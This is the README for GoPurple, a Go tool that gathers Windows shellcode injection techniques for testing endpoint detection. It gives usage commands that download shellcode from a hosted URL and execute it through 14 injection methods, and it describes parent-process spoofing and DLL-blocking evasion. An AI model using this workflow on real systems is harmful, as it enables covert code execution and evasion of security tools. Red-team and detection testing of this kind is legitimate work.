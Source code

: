 # GoPurple

This project is a simple collection of various shell code injection techniques, aiming to streamline the process of endpoint detection evaluation, beside challenging myself to get into Golang world.




# Installation

1 - Requires [go](https://golang.org/dl/) installed.

2 - Build the application from the project's directory: `go build`. Set `GOOS=windows` if the build system is not Windows.


```
  _____                              _
  / ____|                            | |
 | |  __  ___  _ __  _   _ _ __ _ __ | | ___
 | | |_ |/ _ \| '_ \| | | | '__| '_ \| |/ _ \
 | |__| | (_) | |_) | |_| | |  | |_) | |  __/
  \_____|\___/| .__/ \__,_|_|  | .__/|_|\___|
              | |              | |
              |_|              |_|   by @s3cdev

 -a string
        Program command line arguments
  -b string
        block DLL mode (nonms/onlystore for QueueUserAPC )
  -p int
        Process ID to inject shellcode into
  -prog string
        program to inject into
  -t string
        shellcode injection technique to use:
         1: CreateFiber
         2: syscall
         3: CreateThreadNative
         4: CreateProcess
         5: EtwpCreateEtwThread
         6: CreateRemoteThread
         7: RtlCreateUserThread
         8: CreateThread
         9: CreateRemoteThreadNative
         10: CreateProcessWithPipe
         11: QueueUserAPC
         12: CreateThreadpoolWait
         13: BananaPhone
  -u string
        URL hosting the shellcode

```




# Examples:

A shellcode needs to be generated,this can be done using tools such as [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) or [shad0w](https://github.com/bats3c/shad0w). Then the shellcode needs to be hosted to be remotely downloaded and executed on the remote machine.
For the sake of clarity, the below demos illustrate different ways of using the tool.

1 - Shellcode injection using BananaPhone method + Shad0w as the shellcode generator

![](demo1.gif)




2 - Shellcode injection using QueueUserAPC technique + Shad0w as the shellcode generator +  spoofing the parent ID (explorer as the parent ID) +  process launching by spoofed parent that contains the shellcode(calc) + protecting the process from unsigned DLL hook, so only Microsoft signed DLL can hook into the process.

![](demo2.gif)


3- Shellcode injection using CreateFiber + msfvenom as the shellcode generator

![](demo3.gif)

# How To Use:

```
1 - gopurple.exe -u urlhostingpayload -t 1 (CreateFiber)

2 - gopurple.exe -u urlhostingpayload -t 2 (Syscall)

3 - gopurple.exe -u urlhostingpayload -t 3 (CreateThreadNative)

4 - gopurple.exe -u urlhostingpayload -t 4 (CreateProcess)

5 - gopurple.exe -u urlhostingpayload -t 5 (EtwpCreateEtwThread)

6 - gopurple.exe -u urlhostingpayload -t 6 -p targetprocess (CreateRemoteThread)

7 - gopurple.exe -u urlhostingpayload -t 7 -p targetprocess (RtlCreateUserThread)

8 - gopurple.exe -u urlhostingpayload -t 8 (CreateThread)

9 - gopurple.exe -u urlhostingpayload -t 9 -p targetprocess (CreateRemoteThreadNative)

10 - gopurple.exe -u urlhostingpayload -t 10 -prog porgram -a processargument (ex:C:\Windows\System32\WindowsPowerShell\v1.0) and processargument(ex:Get-Process)  (CreateProcessWithPipe)

11 - gopurple.exe -u urlhostingpayload -t 11 -p targetpidasparentprocess -prog programtoinjectshellcodeinto -b methodtoblockdll(nonms or onlystore)  (QueueUserAPC)

nonms = only DLLs that are signed by Microsoft can hook into the process

onlystore = only Microsoft store application's process can hook into the process

12 - gopurple.exe -u urlhostingpayload -t 12 (CreateThreadpoolWait)

13 - gopurple.exe -u urlhostingpayload -t 13 (BananaPhone)

14-  gopurple.exe -u urlhostingpayload -t 14 (EnumerateLoadedModules)
```


# Acknowledgments:

All the credits go to following guys for their awesome researches,tools and inspiration:

* [ne0nd0g](https://twitter.com/ne0nd0g):  Most of this project has been borrowed from go-shellcode 

* [spotheplanet](https://twitter.com/spotheplanet): The [blogpost](https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait) inspired me to convert the method to Golang

* [_d00mfist](https://twitter.com/_d00mfist): Great implementation of QueueUserAPC technique in Golang

* [c__sto](https://twitter.com/c__sto): BananaPhone technique

* [_batsec_](https://twitter.com/_batsec_): The great shad0w

* [chiragsavla94](https://twitter.com/chiragsavla94): Inspired from [ProcessInjection](https://github.com/3xpl01tc0d3r/ProcessInjection)

* [S4R1N](https://twitter.com/S4R1N): For introducing the new alternative code executions

Thanks to [brimston3](https://twitter.com/brimston3) for his support and contribution

# References

(https://github.com/Ne0nd0g/go-shellcode)

(https://www.ired.team/)

(https://github.com/D00MFist/Go4aRun)

(https://github.com/BishopFox/sliver)

(https://posts.specterops.io/going-4-a-run-eb263838b944)

(https://github.com/C-Sto/BananaPhone)

(https://blog.xpnsec.com/protecting-your-malware)

(https://github.com/3xpl01tc0d3r/ProcessInjection)

(https://github.com/S4R1N/AlternativeShellcodeExec/blob/master/EnumerateLoadedModules/EnumerateLoadedModules.cpp)


# Future Plans

* Adding more techniques
* More structured code


# Changelog 
## [1.0] - 2021-03-22
### Added
- EnumerateLoadedModules technique

# Legal Disclaimer
This project is made for educational and ethical testing purposes only.Usage of GoPurple for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developer assume no liability and are not responsible for any misuse or damage caused by this program







